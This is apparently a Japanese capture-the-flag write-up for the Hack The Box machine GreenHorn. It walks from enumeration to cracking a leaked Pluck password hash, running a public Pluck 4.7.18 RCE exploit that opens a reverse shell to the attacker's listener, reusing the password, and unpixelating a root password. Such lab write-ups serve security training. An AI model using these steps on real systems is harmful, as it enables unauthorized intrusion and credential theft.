


# GreenHorn Writeup


# Enumeration

```bash
-> % sudo nmap -sV -sC -p- --min-rate 10000 10.10.11.25 -oN Nmap.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-07 12:09 JST
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.12s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: pluck 4.7.18
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=fe41a42b14f07582; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=MOjhp0rl2-B3vVqRX7hKPeH51rc6MTczMzU0MDE1Mzc4MDk0ODM0Mw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 07 Dec 2024 02:55:53 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=4aff4d27a344e147; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=lhF0eRUtAJNsItqqVqaaOGJpcvY6MTczMzU0MDE2MDAyOTY0ODAxNA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 07 Dec 2024 02:56:00 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=12/7%Time=6753BC84%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,252E,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=fe41a42b14f07582;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=MOjhp0rl2-B3vVqRX7hKPeH51rc6MTczMzU0MDE1Mzc4MDk0ODM0Mw;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2007\x20Dec\x202024\x2002:55:53\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nS
SF:et-Cookie:\x20i_like_gitea=4aff4d27a344e147;\x20Path=/;\x20HttpOnly;\x2
SF:0SameSite=Lax\r\nSet-Cookie:\x20_csrf=lhF0eRUtAJNsItqqVqaaOGJpcvY6MTczM
SF:zU0MDE2MDAyOTY0ODAxNA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20Sam
SF:eSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2007\x20D
SF:ec\x202024\x2002:56:00\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.78 seconds
```

sshと80,3000でhttpが動いていました。80番ポートから見ていきます。

そして、スキャン結果からドメイン greenhorn.htbを見つけました。 `/etc/hosts` に追加します。

```
10.10.11.25 greenhorn.htb
```

## Web

80番ポートにアクセスします。


welcomeページが表示されました。

このページには別のページに遷移しなさそうですが、ページ下部にpluckが使用されていることが示されています。

dirsearchでディレクトリ探索を行います。

```bash
-> % dirsearch -u http://greenhorn.htb/                                             
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/hatto/CTF/HTB/machine/Linux/GreenHorn/reports/http_greenhorn.htb/__24-12-07_12-22-13.txt

Target: http://greenhorn.htb/

[12:22:13] Starting: 
[12:22:15] 200 -   93B  - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[12:22:15] 200 -   93B  - /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
[12:22:17] 404 -  564B  - /.css
[12:22:18] 404 -  564B  - /.gif
[12:22:19] 404 -  564B  - /.ico
[12:22:19] 404 -  564B  - /.jpeg
[12:22:19] 404 -  564B  - /.jpg
[12:22:21] 404 -  564B  - /.png
[12:22:30] 404 -  564B  - /adm/style/admin.css
[12:22:30] 200 -    4KB - /admin.php
[12:22:34] 404 -  564B  - /admin_my_avatar.png
[12:22:44] 404 -  564B  - /bundles/kibana.style.css
[12:22:49] 200 -   48B  - /data/
[12:22:49] 301 -  178B  - /data  ->  http://greenhorn.htb/data/
[12:22:51] 200 -   93B  - /docpicker/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[12:22:51] 403 -  564B  - /docs/
[12:22:51] 301 -  178B  - /docs  ->  http://greenhorn.htb/docs/
[12:22:54] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=../WEB-INF
[12:22:54] 200 -   93B  - /faces/javax.faces.resource/web.xml?ln=..\\WEB-INF
[12:22:54] 404 -  564B  - /favicon.ico
[12:22:54] 403 -  564B  - /files/
[12:22:54] 301 -  178B  - /files  ->  http://greenhorn.htb/files/
[12:22:58] 404 -  564B  - /IdentityGuardSelfService/images/favicon.ico
[12:22:58] 301 -  178B  - /images  ->  http://greenhorn.htb/images/
[12:22:58] 403 -  564B  - /images/
[12:22:59] 200 -    4KB - /install.php
[12:23:00] 200 -    4KB - /install.php?profile=default
[12:23:00] 200 -   93B  - /jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo
[12:23:03] 200 -    1KB - /login.php
[12:23:04] 404 -  564B  - /logo.gif
[12:23:05] 200 -   93B  - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[12:23:05] 200 -   93B  - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[12:23:15] 200 -   93B  - /plugins/servlet/gadgets/makeRequest?url=https://google.com
[12:23:17] 200 -   93B  - /proxy.stream?origin=https://google.com
[12:23:18] 200 -    2KB - /README.md
[12:23:19] 200 -   93B  - /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
[12:23:19] 200 -   93B  - /remote/fgt_lang?lang=/../../../../////////////////////////bin/sslvpnd
[12:23:19] 404 -  564B  - /resources/.arch-internal-preview.css
[12:23:19] 200 -   47B  - /robots.txt
[12:23:24] 404 -  564B  - /skin1_admin.css
[12:23:24] 404 -  997B  - /solr/admin/file/?file=solrconfig.xml
[12:23:38] 200 -   93B  - /wps/myproxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[12:23:38] 200 -   93B  - /wps/common_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[12:23:38] 200 -   93B  - /wps/cmis_proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[12:23:38] 200 -   93B  - /wps/contenthandler/!ut/p/digest!8skKFbWr_TwcZcvoc9Dn3g/?uri=http://www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com
[12:23:38] 200 -   93B  - /wps/proxy/http/www.redbooks.ibm.com/Redbooks.nsf/RedbookAbstracts/sg247798.html?Logout&RedirectTo=http://example.com

Task Completed
```

いろいろ見つかりましたが、admin.phpを見てみると、pluckのバージョン情報 `pluck 4.7.18` を見つけました。


searchsploitで pluck 4.7.18に何か脆弱性がないか調べます。


pluck 4.7.18にはリモートコード実行を行うことのできる脆弱性があることが分かりました。

[Pluck v4.7.18 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51592)

しかしこの脆弱性を悪用するには認証情報が必要です。3000番ポートで何か情報を得られるか調べます。


3000番ポートにアクセスすると Giteaが動いていました。

エクスプローラーを見てみるとリポジトリを見つけました。


80番ポートで動いているwebサイトのリポジトリみたいです。


`GreenHorn/data/setting/pass.php` にパスワードハッシュを見つけました。


```
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163
```

hashcatで解析します。


hash形式はsha512みたいです。 -m 1700で解析できます。

```bash
hashcat -m 1700 hash.txt /usr/share/wordlists/rockyou.txt
```


解析が終了し、パスワードが `iloveyou1` であることが分かりました。

このパスワードでpluckにログインします。


ログインできました。

# Exploit

pluck 4.7.18の脆弱性を悪用するPoCを見つけたのでこれを使用します。

[Pluck_Cms_4.7.18_RCE_Exploit](https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit.git)

Gitからクローンして実行するだけでリバースシェルを取得することができます。

```bash
git clone https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit.git
cd Pluck_Cms_4.7.18_RCE_Exploit.git
```

```bash
-> % python3 exploit_pluckv4.7.18_RCE.py --password iloveyou1 --ip 10.10.16.5 --port 4444 --host http://greenhorn.htb
[+] Creating payload
[+] Creating .php file
[+] Creating ZIP file
Login successful
[+] ZIP file uploaded successfully
```

```bash
-> % rlwrap -cAr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 44494
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/mirabbas$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@greenhorn:~/html/pluck/data/modules/mirabbas$ 
```

www-dataとしてシェルを取得することができました。

ホームディレクトリを見てみると、ユーザー `git`, `juniort` が見つかりました。


linpeasで列挙を行いましたが、特に興味深いものは見つかりませんでした。

見つけたユーザーjuniorでパスワード、`iloveyou1` を試してみたところ、juniorとしてログインすることができました。


このパスワードでsshでログインしてみましたがどうやらパスワード認証は使えないみたいなので秘密鍵を生成してログインします。


authorized_keysをつくる


攻撃側端末で作成した秘密鍵を保存します。



`chmod 600 id_rsa` で権限を与えてログインします。


user.txtを取得しました。


# Privilege Escalation

ホームディレクトリにはフラグと一緒にPDFが見つかりました。


pythonでサーバーを起動してpdfをダウンロードします。


ダウンロードしたpdfを見てみます。


パスワードがモザイクで隠されています。どうにかしてモザイクを外す必要があります。

モザイクを復元できる有名なツールとして `depix` というものがあります。これは、ピクセル化されたスクリーンショットからプレーンテキストを復元するpythonスクリプトです。

[Depix](https://github.com/spipm/Depix.git)

復元するモザイクをpdfから抽出します。

```bash
pdfimages 'Using OpenVAS.pdf' pass
```

depixでモザイクを復元します。


作成されたoutput.pngを見てみます。


モザイクが少し外れて文字列が浮かび上がりました

```
sidefromsidetheothersidesidefromsidetheotherside
```

これをつかってrootにログインします。


rootに権限を昇格することができました。



root.txtを取得して終了です。


